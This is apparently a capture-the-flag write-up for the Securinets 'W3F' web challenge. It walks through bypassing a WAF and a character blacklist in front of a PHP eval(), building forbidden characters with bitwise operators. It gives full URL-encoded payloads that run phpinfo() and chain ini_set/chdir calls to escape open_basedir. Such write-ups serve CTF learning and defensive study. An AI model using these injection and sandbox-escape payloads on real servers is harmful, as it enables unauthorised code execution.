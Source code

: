 W3F
---

challenge link: http://web2.q21.ctfsecurinets.com:8081/


waf-config file


![image](https://user-images.githubusercontent.com/61080375/112029098-e2038400-8b5e-11eb-97dd-fd1bfacec876.png)

* we can by pass that ``!@within 1`` by putting space("%20" or "+") in fron of the ``cmd`` parameter 


http://web2.q21.ctfsecurinets.com:8081/?+cmd=123


source code:

```php
<?php

error_reporting(0);
function waf($str){
     for($i=0;$i<=strlen($str)-1;$i++){
        if ((ord($str[$i])<32) or (ord($str[$i])>126)){
            header("HTTP/1.1 403 Forbidden" );
                        exit;
        }
     }
     $blacklist = ['[A-Zb-df-km-uw-z]',' ', '\t', '\r', '\n','\'', '"', '`', '\[', '\]','\$','\\','\^','~'];
        foreach ($blacklist as $blackitem) {
                if (preg_match('/' . $blackitem . '/m', $str)) {
                        header("HTTP/1.1 403 Forbidden" );
                        exit;
                        //die('You are forbidden!');
                }
        }
}
if(!isset($_GET['cmd'])){
    show_source(__FILE__);
}else{
        $str = $_GET['cmd'];
       
        waf($str);
        eval('echo '.$str.';');
}
?>

```

**char allowed**:``a e v l 1 2 3 4 5 6 7 8 9 0 @ ! # % ^ & * | ( ) _``

* we can get more charcters by combination of these charcters

![image](https://user-images.githubusercontent.com/61080375/112035180-4f1a1800-8b65-11eb-81b1-bed2baf24019.png)



```
(l|v)           =>  ~
(v|e)           =>   w
((2).(2){0}|a)  =>   s
((2).(2)|(9).(9))  =>  ;;

```
```
(((((4)._%26e_).((((9999**999999).a)%7B2%7D)%7C((0%2F0).a)%7B1%7D).((_)%26e).(((0).a%7C(e%26l))%26((_))).(((((2).a)%7Ca)%7C((8).aa))%26((_).aa)).((((1).(2))%7Cl.(9))%26(_))))).((9).a%26(a%7Cl)).((2).(2)%7C(9).(9))  => $_GET[aa]);;  

```

* we can pass ``eval`` also ,so we can exicute php code

* we can try ``eval(phpinfo());``

```css
http://web2.q21.ctfsecurinets.com:8081/?%20cmd=eval((((((1/0).(1)){0})%26(((1/0).(1)){2})|(0).(0){0})).(((((1/0).(1)){0})%26(((1/0).(1)){2})|((0).(0){0})%26(((1.5).(0)){1})|(8).(8){0}%26((1/0).(0)){0})).(((((1/0).(1)){0})%26(((1/0).(1)){2})|(0).(0){0})).(((((1/0).(1)){0})%26(((1/0).(1)){2})|((0).(0){0})%26(((1.5).(0)){1})|(8).(8){0}%26((1/0).(0)){0}|(1).(1){0}%26((0/0).(0)){1})).(((((1/0).(1)){0})%26(((1/0).(1)){2})|((0).(0){0})%26(((1.5).(0)){1})|(8).(8){0}%26((1/0).(0)){0}|(4).(4){0}%26((1/0).(0)){2}|(2).(2){0}%26((1/0).(0)){1})).(((((1/0).(1)){0})%26(((1/0).(1)){2})|((0).(0){0})%26(((1.5).(0)){1})|(4).(4){0}%26((1/0).(0)){2}|(2).(2){0}%26((1/0).(0)){1})).(((((1/0).(1)){0})%26(((1/0).(1)){2})|((0).(0){0})%26(((1.5).(0)){1})|(8).(8){0}%26((1/0).(0)){0}|(4).(4){0}%26((1/0).(0)){2}|(2).(2){0}%26((1/0).(0)){1}|(1).(1){0}%26((0/0).(0)){1})).((((0).(0){0})%26(((1.5).(0)){1})|(8).(8){0}%26((1/0).(0)){0})).((((0).(0){0})%26(((1.5).(0)){1})|(8).(8){0}%26((1/0).(0)){0}|(1).(1){0}%26((0/0).(0)){1})).(((0).(0){0}|(8).(8){0}%26((1/0).(0)){0}|(2).(2){0}%26((1/0).(0)){1}|(1).(1){0}%26((0/0).(0)){1})))
```

![image](https://user-images.githubusercontent.com/61080375/112036748-05cac800-8b67-11eb-8e5d-6336baf0a8ad.png)

![image](https://user-images.githubusercontent.com/61080375/112036858-1f6c0f80-8b67-11eb-9d9e-9edc062715d2.png)


* we can see alot of functions are disabled in that


* we found that ``ini_set()``  is not disabled
* there is a ``/images`` dir in 
* 

payload:**ini_set('display_errors', 1);ini_set('display_startup_errors', 1);error_reporting(E_ALL);chdir('images');ini_set('open_basedir','..');chdir('..');chdir('..');chdir('..');ini_set('open_basedir', '/');new Finfo(0,"/");**



```css
http://web2.q21.ctfsecurinets.com:8081/?+cmd=eval(((ev).(al).((8).a%26(l)).((((4)._%26e_).((((9999**999999).a){2})|((0%2F0).a){1}).((_)%26e).(((0).a|(e%26l))%26((_))).(((((2).a)|a)|((8).aa))%26((_).aa)).((((1).(2))|l.(9))%26(_))))).((9).a%26(a|l)).((2).(2)|(9).(9)))&aa=ini_set(%27display_errors%27,%201);ini_set(%27display_startup_errors%27,%201);error_reporting(E_ALL);chdir(%27images%27);ini_set(%27open_basedir%27,%20%27..%27);chdir(%27..%27);chdir(%27..%27);chdir(%27..%27);ini_set(%27open_basedir%27,%20%27/%27);new%20Finfo(0,%22/%22);
```



![image](https://user-images.githubusercontent.com/61080375/112038804-4f1c1700-8b69-11eb-90e0-9e368ad0b74f.png)


